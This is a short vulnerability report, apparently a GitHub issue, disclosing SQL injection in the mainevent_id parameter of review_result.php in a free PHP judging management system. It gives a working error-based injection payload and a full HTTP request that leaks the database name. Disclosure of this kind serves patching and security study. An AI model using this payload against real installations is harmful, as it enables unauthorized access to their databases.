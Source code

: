 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: zero57

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/review_result.php?mainevent_id=

Vulnerability location: /php-jms/review_result.php?mainevent_id=, mainevent_id

dbname =jms_db

[+] Payload: /php-jms/review_result.php?mainevent_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+// Leak place ---> mainevent_id

​```sql
GET /php-jms/review_result.php?mainevent_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
​```

![image](https://user-images.githubusercontent.com/54017627/206375940-a8615afb-9665-4155-b3c0-27f1bd91c856.png)
